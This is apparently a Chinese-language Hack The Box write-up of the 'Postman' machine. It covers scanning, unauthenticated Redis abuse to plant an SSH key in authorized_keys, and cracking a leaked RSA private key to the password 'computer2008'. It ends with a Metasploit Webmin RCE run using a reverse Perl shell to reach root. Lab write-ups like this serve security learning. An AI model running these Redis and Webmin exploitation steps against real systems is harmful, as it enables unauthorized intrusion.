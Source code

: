 ```yaml
---
title: Postman(Redis未授权访问)
date: 2021-12-24 11:31:17
tags: Hack the box
top: true
categories: 未授权访问漏洞
---
```


## 信息收集

发现目标开放了22、80、6379等常见端口

```bash
root💀kali)-[~/Desktop/Scan-Scripts]
└─# ./nmap.sh 10.10.10.160
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-30 07:32 EST
Nmap scan report for 10.10.10.160
Host is up (0.30s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.85 seconds
```

<!--more-->

我们访问一下web服务，发现只是一个普通的web页面而已![在这里插入图片描述](https://img-blog.csdnimg.cn/31925c3c4c634d4c8dfa4491466b77e0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们模糊一下网站路径

```bash
┌──(root💀kali)-[~/Desktop/Scan-Scripts]
└─# dirsearch -u "http://10.10.10.160" -e * -x404,403,500

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )                                                                                                                        
                                                                                                                                               
Extensions: nmap.sh | HTTP method: GET | Threads: 30 | Wordlist size: 8979

Output File: /root/.dirsearch/reports/10.10.10.160/_21-11-30_07-47-35.txt

Error Log: /root/.dirsearch/logs/errors-21-11-30_07-47-35.log

Target: http://10.10.10.160/
                                                                                                                                               
[07:47:35] Starting: 
[07:48:35] 301 -  310B  - /css  ->  http://10.10.10.160/css/                                                                             
[07:48:44] 301 -  312B  - /fonts  ->  http://10.10.10.160/fonts/                                                             
[07:48:48] 301 -  313B  - /images  ->  http://10.10.10.160/images/                        
[07:48:48] 200 -    2KB - /images/
[07:48:50] 200 -    4KB - /index.html                                                                                                 
[07:48:51] 200 -    3KB - /js/                                                                                                              
[07:48:52] 301 -  309B  - /js  ->  http://10.10.10.160/js/                   
[07:49:25] 301 -  313B  - /upload  ->  http://10.10.10.160/upload/                                                                       
[07:49:27] 200 -    8KB - /upload/                                                                          
                                                                                                                       
Task Completed
```

<!--more-->

我们发现一个upload目录，访问发现只有一些图片而已
![在这里插入图片描述](https://img-blog.csdnimg.cn/b3c145006edb4713a933104a79cae707.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
web攻击无果，那我们将注意力转移到redis数据库上，尝试是否存在未授权访问漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/f8887a8690934a50aefef93ab24f104a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用

我们首先将我们的ssh-key写入到key.txt文件中
![在这里插入图片描述](https://img-blog.csdnimg.cn/30cc35f7466642ae8fc852db4f111dc6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
再把key.txt文件内容写入redis缓存中
![在这里插入图片描述](https://img-blog.csdnimg.cn/3f83ac49ad7546059774aba3c56a198e.png)

```bash
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> config set /var/lib/redis/.ssh
(error) ERR Wrong number of arguments for CONFIG set
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> exit
```

我们尝试登录到该主机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/795ba910f639419d8987d79f0ec483b2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们上传linpeas.sh脚本到目标主机上发现，主机的/opt目录上存在一份私钥备份

```bash
redis@Postman:~$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

我们将其下载到本机，并使用ssh2john.py将其哈希导出
![在这里插入图片描述](https://img-blog.csdnimg.cn/66c4d071bea24d2bb4891441037f3a8d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后使用john进行破解得到密码，得到密码computer2008，登录到Matt账户
![在这里插入图片描述](https://img-blog.csdnimg.cn/40e53a09c8a549a19313e7fb22d13443.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 提权root

我们访问10000端口发现是个webmin应用程序，在EDB发现存在RCE漏洞并在MSF中集成
![在这里插入图片描述](https://img-blog.csdnimg.cn/83ea6c04c24c457e896f109ef6a6cfbf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/ae16ec96fd1d44ceac7112af658419af.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们直接使用第二个并填写好参数后，得到root权限

```bash
msf6 > use 2
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(linux/http/webmin_packageup_rce) > show options 

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf6 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf6 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > show options 

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   computer2008     yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.160     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf6 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost 10.10.14.9
lhost => 10.10.14.9
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > exploit
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/6427bab560c04677b571daeed8ba6947.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
